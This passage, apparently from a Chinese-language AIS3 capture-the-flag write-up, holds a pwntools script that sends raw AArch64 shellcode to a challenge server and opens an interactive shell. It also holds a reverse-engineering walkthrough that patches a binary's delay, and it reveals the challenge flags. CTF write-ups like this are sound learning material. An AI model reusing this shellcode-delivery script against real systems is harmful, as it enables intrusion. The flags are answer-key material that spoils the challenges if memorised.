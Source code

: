 ```python
from pwn import *

shellcode = b"\xe1\x45\x8c\xd2\x21\xcd\xad\xf2\xe1\x65\xce\xf2\x01\x0d\xe0\xf2\xe1\x8f\x1f\xf8\xe1\x03\x1f\xaa\xe2\x03\x1f\xaa\xe0\x63\x21\x8b\xa8\x1b\x80\xd2\xe1\x66\x02\xd4"
p = remote("chals1.ais3.org",15566)
p.recvuntil(b"name")
p.sendline(b"aaa")
p.recvuntil(b"shellcode")
p.sendline(shellcode)
p.interactive()
```

Flag 放在 /home/give_me_sc/flag : `AIS3{Y0uR_f1rst_Aarch64_Shellcoding}`

----
# Reverse

## Time Management

這題也是意外搶到首殺:) 直接上Ghidra:

![image-20220520152753594](/assets/img/2022-06-07/image-20220520152753594.png)

非常的直白，它會做一些奇怪的加密解密xor的東西，然後每隔非常久的一段時間才印出一個字元。解法很多，我這裡是直接把等待時間patch成0，然後改掉最後的`\r` 免得它把我們的flag給洗掉。然後flag就出來拉

Flag: `AIS3{You_are_the_master_of_time_management!!!!!}`

## Strings

